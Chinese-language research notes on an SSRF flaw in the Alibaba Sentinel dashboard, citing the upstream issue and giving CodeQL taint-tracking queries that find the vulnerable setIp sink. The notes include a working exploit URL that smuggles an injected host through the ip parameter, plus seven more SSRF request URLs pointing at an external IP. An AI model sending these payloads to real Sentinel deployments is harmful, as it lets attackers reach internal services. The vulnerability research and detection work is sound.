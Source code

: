 # Sentinel

随着微服务的流行，服务和服务之间的稳定性变得越来越重要。Sentinel 是面向分布式服务架构的**轻量级**流量控制产品，主要以流量为切入点，从流量控制、熔断降级、系统负载保护等多个维度来帮助您保护服务的稳定性。

[介绍](https://blog.csdn.net/u012190514/article/details/81383698)

## SSRF

https://github.com/alibaba/Sentinel/issues/2451

## source

![image-20220102190441213](https://user-images.githubusercontent.com/63966847/147877579-bc3f1a6c-e274-409e-98e3-401259ca6815.png)


![image-20220102190456538](https://user-images.githubusercontent.com/63966847/147877583-77e3152f-c4d8-4fd1-bd4f-8e1775df54bf.png)


## sink

![image-20220102190519809](https://user-images.githubusercontent.com/63966847/147877588-ff6b13b7-d192-4913-a419-e3044634df93.png)

exp

```
http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

## codeql

使用污点分析

其他ssrf不过需要登录。

```
http://127.0.0.1:8080/cluster/state_single?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/authority/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/v1/flow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/paramFlow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/resource/machineResource.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/system/rules.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/gateway/api//list.json?ip=1.116.136.120&port=3333&app=test
```

因为能力有限只能分开弄

```java
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.security.QueryInjection
import DataFlow::PathGraph



class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource
  }//默认参数

  override predicate isSink(DataFlow::Node sink) {
    exists(//触发set ip操作
      Parameter p | p = sink.asParameter() and p.getCallable().getName() = "setIp" and p.getName() = "ip"
  )
  }
}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"
```

```java
import java
    
from MethodAccess call, Method method, DataFlow::Node src
where method.hasName("setIp") and method.getDeclaringType().getAnAncestor().hasQualifiedName("com.alibaba.csp.sentinel.dashboard.discovery", "MachineInfo") and call.getMethod() = method and src instanceof RemoteFlowSource 
select call
```

